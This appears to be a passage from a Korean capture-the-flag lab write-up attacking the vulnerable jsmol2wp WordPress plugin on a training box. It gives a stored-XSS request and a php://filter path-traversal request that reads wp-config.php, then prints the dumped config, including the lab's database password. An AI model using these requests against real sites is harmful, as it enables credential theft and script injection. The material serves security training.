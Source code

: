 # IP: 10.10.97.230, www.smol.thm -> CVE 취약점 확인

http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=saveFile&data=%3Cscript%3Ealert(/xss/)%3C/script%3E&mimetype=text/html;%20charset=utf-8

![](https://velog.velcdn.com/images/agnusdei1207/post/9489e7ee-b9c5-4def-b337-13f30ef6321f/image.png)

http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php

![](https://velog.velcdn.com/images/agnusdei1207/post/b10129e7-2e41-42c0-b15d-76ed89c0c5f3/image.png)

```

<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the installation.
 * You don't have to use the web site, you can copy this file to "wp-config.php"
 * and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * Database settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/documentation/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'wpuser' );

/** Database password */
define( 'DB_PASSWORD', 'kbLSF2Vop#lw3rjDZ629*Z%G' );

/** Database hostname */
define( 'DB_HOST', 'localhost' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

/**#@+
 * Authentication unique keys and salts.
 *
 * Change these to different unique phrases! You can generate these using
 * the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}.
 *
 * You can change these at any point in time to invalidate all existing cookies.
 * This will force all users to have to log in again.
 *
 * @since 2.6.0
```